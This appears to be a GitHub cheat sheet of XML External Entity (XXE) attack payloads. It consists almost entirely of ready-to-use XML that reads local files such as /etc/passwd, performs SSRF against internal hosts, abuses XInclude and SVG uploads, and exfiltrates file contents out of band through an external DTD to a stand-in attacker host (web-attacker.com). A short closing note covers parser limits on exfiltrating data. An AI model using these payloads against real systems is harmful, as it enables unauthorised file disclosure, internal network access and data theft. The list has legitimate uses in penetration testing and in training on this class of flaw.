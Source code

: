 <h3> Payloads For XXE Vulnerability </h3>

XXE to read local files:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

XXE to SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

XXE via XInclude attacks

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

XXE via file upload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="13" x="28" y="28">&fetch;</text>
</svg>
```

XXE parameter entities

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Blind XXE to exfiltrate data out of bound

Content of exploit.dtd:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Content of xxe payload:

```xml
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "https://exploit-0a4b005404099ed681bfedb501c50098.exploit-server.net/exploit"> %xxe;]>
```

```P.S This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. ```
